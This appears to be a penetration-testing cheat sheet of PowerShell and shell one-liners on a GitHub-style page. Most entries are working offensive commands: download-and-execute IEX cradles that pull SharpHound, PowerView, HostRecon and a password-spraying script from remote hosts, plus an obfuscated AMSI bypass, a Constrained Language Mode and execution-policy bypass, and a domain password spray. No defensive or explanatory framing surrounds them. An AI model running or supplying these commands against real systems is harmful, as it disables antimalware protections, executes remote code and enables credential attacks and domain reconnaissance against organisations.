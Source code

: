 ##### Add HTTP-text to line
~~~
awk  '{print "http://" $1}' urls.txt
~~~
##### Change permissions of folder (Linux)
~~~
sudo chmod +x $(find /PATH/)
~~~
##### BloodHound ingestor trough PowerShell
~~~
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1');Invoke-BloodHound -LdapUsername "Username" -LdapPassword "Password" -Domain "Domain" -DomainController DC-ip -CollectionMethods All -OutputDirectory "C:\TEMP\"
~~~



# Bypasses
------------
##### Powershell CLM Bypass:
~~~
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"
Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe  -ExecutionPolicy bypass"
sleep 5
#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
~~~

##### Powershell Obfuscated AMSI Bypass:
~~~
$w='System.Management.Automation.A';$c='si';$m='Utils'
$assembly=[Ref].Assembly.GetType(('{0}m{1}{2}'-f$w,$c,$m))
$field=$assembly.GetField(('am{0}InitFailed'-f$c),'NonPublic,Static')
$field.SetValue($null,$true)
~~~

##### Powershell Modified AMSI .Net Bypass script - In Memory
~~~
IEX (New-Object Net.Webclient).DownloadString('https://gist.githubusercontent.com/shantanu561993/6483e524dc225a188de04465c8512909/raw/db219421ea911b820e9a484754f03a26fbfb9c27/AMSI_bypass_Reflection.ps1')
~~~

##### Scripts - In Memory
-----------------------
~~~
# Host Recon
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/dafthack/HostRecon/master/HostRecon.ps1');
Invoke-HostRecon
~~~

##### Powerview
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
~~~

##### Spray
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/DomainPasswordSpray/master/DomainPasswordSpray.ps1'); Invoke-DomainPasswordSpray -Domain <domain> -Password password
~~~
##### Sharphound
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1'); Invoke-BloodHound -Domain <domain> -CollectionMethod All
~~~

